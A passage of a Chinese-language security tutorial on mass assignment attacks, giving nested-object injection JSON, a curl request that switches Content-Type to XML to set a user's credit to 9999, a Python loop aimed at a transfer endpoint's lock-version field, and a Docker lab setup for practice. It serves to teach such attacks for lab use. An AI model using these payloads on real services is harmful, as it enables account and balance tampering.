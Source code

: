 ### 2.2 高级利用技巧
#### 技巧1：嵌套对象注入
针对复杂对象结构的渗透：
```json
{
  "user": {
    "name": "test",
    "preferences": {
      "theme": "dark",
      "email_verified": true
    }
  }
}
```
利用对象图导航（OGNL）实现深层属性修改

#### 技巧2：内容类型转换攻击
绕过前端限制的Content-Type转换：
```bash
curl -X PATCH http://target.com/profile \
  -H "Content-Type: application/xml" \
  -d '<user><id>1</id><credit>9999</credit></user>'
```
当后端支持多种内容类型解析时，可能绕过JSON校验器

### 2.3 时间窗口攻击
利用未完成事务的临时对象：
```python
import requests

def race_condition_attack():
    while True:
        r = requests.patch('https://api.example.com/transfer', 
                          json={'amount': 1000, '_lock_version': 0})
        if 'balance' in r.text:
            print(r.text)
            break
```
通过高并发请求覆盖乐观锁版本号字段

## 三、实战攻防演练

### 3.1 实验环境搭建
使用Docker快速部署漏洞靶场：
```bash
docker run -d -p 3000:3000 vulnapps/mass-assignment-lab
```

靶场包含以下端点：
- `/register` 用户注册接口
- `/profile/update` 个人信息更新
- `/admin/create` 后台用户创建
